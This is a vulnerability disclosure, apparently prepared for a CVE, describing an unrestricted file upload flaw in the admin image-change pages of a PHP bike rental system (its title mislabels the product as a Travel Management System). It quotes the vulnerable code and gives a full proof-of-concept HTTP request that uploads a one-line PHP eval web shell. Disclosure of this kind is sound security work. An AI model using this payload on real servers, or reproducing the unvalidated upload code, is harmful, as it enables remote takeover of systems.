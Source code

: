 # Travel Management System has File upload vulnerability in /admin/changeimage*.php



## supplier



https://code-projects.org/online-bike-rental-system-using-php-source-code/



## Vulnerability file



/admin/changeimage1.php、/admin/changeimage2.php、/admin/changeimage3.php、/admin/changeimage4.php、/admin/changeimage5.php

The above vulnerability files all have the same issue, and the source code of the vulnerabilities is the samel.

## describe



All files in changeimage *. php have incomplete identification of upload file variables. Hackers can directly upload files with any extension. If the content of the file contains malicious content, it may result in the loss of server permissions.

## **Code analysis**

```
<?php
session_start();
error_reporting(0);
include('includes/config.php');
if(strlen($_SESSION['alogin'])==0)
	{
header('location:index.php');
}
else{
// Code for change password
if(isset($_POST['update']))
{
$vimage=$_FILES["img4"]["name"];
$id=intval($_GET['imgid']);
move_uploaded_file($_FILES["img4"]["tmp_name"],"img/vehicleimages/".$_FILES["img4"]["name"]);
$sql="update tblvehicles set Vimage4=:vimage where id=:id";
$query = $dbh->prepare($sql);
$query->bindParam(':vimage',$vimage,PDO::PARAM_STR);
$query->bindParam(':id',$id,PDO::PARAM_STR);
$query->execute();

$msg="Image updated successfully";



}
?>
```

###### Using the "move_uploaded_file" function, there is no restriction on the type of file upload, which allows malicious files to be uploaded directly by modifying the file extension.

**The above vulnerability files all have the same issue, and the source code of the vulnerabilities is the same. Only one file is listed here for explanation.**

## POC1

```
POST /admin/changeimage4.php HTTP/1.1
Host: 192.168.20.133
Content-Length: 300
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.20.133
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylqS5FsBlhpjSeIev
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.20.133/admin/changeimage4.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4rinhnbm4u05201jo2fh4fnkc6
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive

------WebKitFormBoundarylqS5FsBlhpjSeIev
Content-Disposition: form-data; name="img4"; filename="2.php"
Content-Type: image/jpeg

<?php @eval($_POST['1']); ?>
------WebKitFormBoundarylqS5FsBlhpjSeIev
Content-Disposition: form-data; name="update"


------WebKitFormBoundarylqS5FsBlhpjSeIev--

```

![image-20250106185502284](https://github.com/Huandtx/cve/blob/main/cve/Online%20Bike%20Rental%20System/image-20250106185502284.png)

![image-20250106185656436](https://github.com/Huandtx/cve/blob/main/cve/Online%20Bike%20Rental%20System/image-20250106185656436.png)

